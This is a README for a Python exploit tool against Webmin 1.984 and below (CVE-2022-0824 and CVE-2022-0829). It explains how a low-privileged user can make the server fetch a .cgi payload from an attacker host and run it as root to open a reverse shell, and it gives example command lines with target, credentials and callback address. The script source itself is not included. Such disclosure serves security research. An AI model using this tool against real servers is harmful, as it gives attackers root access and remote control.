 # Webmin-CVE-2022-0824-revshell


## Vulnerability Description

Webmin 1.984 and below - File Manager privilege exploit (CVE-2022-0824 and CVE-2022-0829)  
Less privileged Webmin users who do not have any File Manager module restrictions configured can access files with root privileges, if using the default Authentic theme. All systems with additional untrusted Webmin users should upgrade immediately. Note that Virtualmin systems are not effected by this bug, due to the way domain owner Webmin users are configured.  
_Source: https://www.webmin.com/security.html_

## Exploit Description

This exploit takes advantage of the post-auth Improper Access Control vulnerability in File Manager. This exploit could be done by any less privileged authenticated attacker. It will download a .cgi file remotely from an attacker-controlled server and modify its permission to be a world-executables file. Once this is done, it will execute the .cgi file to establish a reverse connection to the attacker-controller server with root privileges.

_Reference: https://huntr.dev/bounties/d0049a96-de90-4b1a-9111-94de1044f295/_

## Usage

    $~ python3 Webmin-revshell.py -t [TARGET] -c [CREDENTIAL] -LS [PY3HTTP_SERVER] -L [CALLBACK_IP] -P [CALLBACK_PORT]
    $~ python3 Webmin-revshell.py -t https://192.168.5.118:10000 -c user:user123 -LS 192.168.5.120:9090 -L 192.168.5.120 -P 4444
    
    $~  python3 Webmin-revshell.py -h                                                                                                                                    
        usage: Webmin-revshell.py [-h] -t TARGET -c CREDENTIAL -LS PY3HTTP_SERVER -L CALLBACK_IP -P CALLBACK_PORT [-V]

        Webmin CVE-2022-0824 Reverse Shell

        optional arguments:
          -h, --help            show this help message and exit
          -t TARGET, --target TARGET
                                Target full URL, https://www.webmin.local:10000
          -c CREDENTIAL, --credential CREDENTIAL
                                Format, user:user123
          -LS PY3HTTP_SERVER, --py3http_server PY3HTTP_SERVER
                                Http server for serving payload, ex 192.168.5.120:8080
          -L CALLBACK_IP, --callback_ip CALLBACK_IP
                                Callback IP to receive revshell
          -P CALLBACK_PORT, --callback_port CALLBACK_PORT
                                Callback port to receive revshell
          -V, --version         show program's version number and exit

## PoC

    target host: https://192.168.5.118:10000
    attacker host: 192.168.5.120


https://user-images.githubusercontent.com/51811615/156904265-80c2ee4f-8447-41cd-9197-446bf6555e25.mp4


## Tested on
    
    - Webmin 1.984
    - Ubuntu 18.04
    - Kali 2021.3


## Disclaimer:

    The script is for security analysis and research only, hence I would not be liable if it is been used for illicit activities

